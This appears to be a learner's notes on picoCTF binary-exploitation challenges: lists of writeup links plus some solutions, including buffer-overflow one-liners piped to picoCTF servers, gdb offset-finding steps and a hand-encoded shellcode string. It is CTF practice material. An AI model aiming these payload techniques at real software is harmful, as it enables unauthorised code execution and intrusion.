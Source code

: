 # PICO-CTF

1. stonks - bufferflow
`https://github.com/vivian-dai/PicoCTF2021-Writeup/blob/main/Binary%20Exploitation/Stonks/Stonks.md`
2. cachemeoutside - heap exploit
`https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Cache_Me_Outside.md`
3. here's a LIBC - buffer Overflow + ROP chain 
`https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Heres_a_LIBC.md`
`https://cyb3rwhitesnake.medium.com/picoctf-heres-a-libc-pwn-4184a99586d9`
4. Unsubscriptions are free - Use After Free vulnerability
`https://papadoxie.github.io/Writeups/PicoCTF/UnsubscriptionsAreFree/UnsubscriptionsAreFree.html`
`https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Unsubscriptions_Are_Free.md`
5. basic file exploit - look and code and identify
6. bufferoverflow0 - Simple too long input
7. cve-xxxx-xxxx - find cve number 
8. babygame01 - play game get flag
`https://medium.com/@khanzjoel55/pico-ctf-2023-writeups-ec12f20f9c1f`
9. two-sum - interger overflow
`https://github.com/snwau/picoCTF-2023-Writeup/blob/main/Binary%20Exploitation/two-sum/two-sum.md`
10. local target
```bash
/local-target                                              
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA
```
11. Picker IV
```bash
Look at code: win() function gives flag but it is not called anywhere
```

```bash
we use gdb to get the win() function address. 
```
```bash
gdb picker-IV
break win # gives win() addr`
exit
```

12. cluter-overflow : simple overflow
```
https://biplav.xyz/posts/coverflow/
https://synisl33t.com/2022/05/18/picoctf-clutter-overflow/
https://7rocky.github.io/en/ctf/picoctf/binary-exploitation/clutter-overflow/
```
`find offset by giving cyclic payload >> 272`
`Offset can also be calculated by looking at code, 0x110 - 0x8 = 264`

`one liner solution: (python3 -c 'import sys; sys.stdout.write("A" * 264)'; echo -e '\xef\xbe\xad\xde') | nc mars.picoctf.net 31890 `

13. filtered shellcode
```
printf "\x31\xC9\xF7\xE1\x51\x90\x31\xC0\x31\xDB\xB0\x11\xB3\x03\xF7\xE3\xF7\xE3\xB3\x02\xF7\xE3\xD1\xEB\x01\xD8\xB3\x02\xF7\xE3\xF7\xE3\xD1\xEB\x01\xD8\xB3\x02\xF7\xE3\xD1\xEB\x01\xD8\xB3\x11\xF7\xE3\xB3\x02\xF7\xE3\xF7\xE3\xD1\xEB\x01\xD8\x50\x90\x31\xC0\xB0\x7F\xB3\x17\xF7\xE3\xB3\x02\xF7\xE3\xD1\xEB\x01\xD8\xB3\x02\xF7\xE3\x5B\x90\xF7\xE3\x50\x90\x31\xC0\x31\xDB\xB0\x2F\xF7\xE0\xB3\x02\xF7\xE3\xF7\xE3\xD1\xEB\x01\xD8\x50\x90\x31\xC0\xB0\x2B\xB3\x03\xF7\xE3\xB3\x02\xF7\xE3\xF7\xE3\xF7\xE3\xD1\xEB\x01\xD8\xB3\x13\xF7\xE3\xB3\x05\xF7\xE3\xB3\x02\xF7\xE3\x5B\x90\xF7\xE3\x50\x90\x31\xC0\xB0\x05\x89\xE3\xCD\x80\x93\x90\x91\x90\xB0\x03\x31\xD2\x50\x90\x31\xC0\x31\xD2\xB2\x40\xB0\x40\xF7\xE2\x50\x90\x5A\x90\x31\xC0\xB0\x01\x29\xC2\x58\x90\x42\x90\xCD\x80\x92\x90\x31\xC0\xB0\x04\xB3\x01\xCD\x80\x93\x90\xCD\x80\n" |  nc mercury.picoctf.net 40525
```
```
https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/filtered-shellcode.md
https://cyb3rwhitesnake.medium.com/picoctf-filtered-shellcode-pwn-3d69010376df
https://ctftime.org/writeup/27464
https://github.com/JeffersonDing/CTF/blob/master/pico_CTF_2021/pwn/filtered_shellcode/ape.py

```

14. kit engine - shellcode !! Study this
`https://www.youtube.com/watch?v=I5ooL_LlO7A`
`https://github.com/exd0tpy/CTF-browser-challenges/blob/main/Kit_Engine/ex.js`
`find out the length of shell code, its 250 then execute`

15. bufferoverflow 1 : return address overflow
somewhat like clutter overflow
```
Enter large string > gives segfault > this means we can find offset of segfault
to find offset we can do cyclic payload
gdv vuln
pattern create 100
run
# paste pattern
info registers eip 
# we are finding eip address because EIP stands for Extended Instruction Pointer and is used to track the address of the current instruction running inside the application.
pattern offset $eip 
gives offset (44)
```
```
now to get win address
disassemble win
#and get the first address (Note: break main gives wrong addr idk why)
in our case 0x080491f6
but we need little endian version = '\xf6\x91\x04\x08'
python
p32(0x080491f6)
b'\xf6\x91\x04\x08'
```
```
pwn tools can also be used to find the address of win
python
>>> p32(v.symbols["win"])
b'\xf6\x91\x04\x08'
```
`one liner solution : (python3 -c 'import sys; sys.stdout.write("A" * 44)'; echo -e '\xf6\x91\x04\x08') |  nc saturn.picoctf.net 52848`
```
https://isharaabeythissa.medium.com/buffer-overflow-1-picoctf-done-by-ishara-abeythissa-2f85025956f0
https://github.com/0xCD4/Binary-Exploitation/blob/main/PicoCTF/Buffer-Overflow-1.md
```

(python3 -c 'import sys; sys.stdout.write("A" * 72)'; echo -e '\x36\x12\x40\x00\x00\x00\x00') 

16. RPS
its looking at the ccode and figuring out correct input
```
we can give "rockpaperscissors" as input multiple times
```

17. x-sixty-what

18. babygame02
19. hijacking
20. tic-tac
21. VNE
22. Guessing Game 1
23. Stonk Market
24. fermat-strings
25. messy malloc
26. Guessing Game 2
27. bufferoverflow 2
28. bufferoverflow 3 
29. flag leak
30. ropfu
31. wine
32. horsetrack
33. seed-sPRiNG
34. download horsepower
35. saas
36. the office
37. homework
38. function overwrite
39. stack cache
40. Turboflan
41. lockdown-horses
42. sice_cream
43. zero_to_hero
44. Bizz Fuzz
45. vr-school
46. solfire

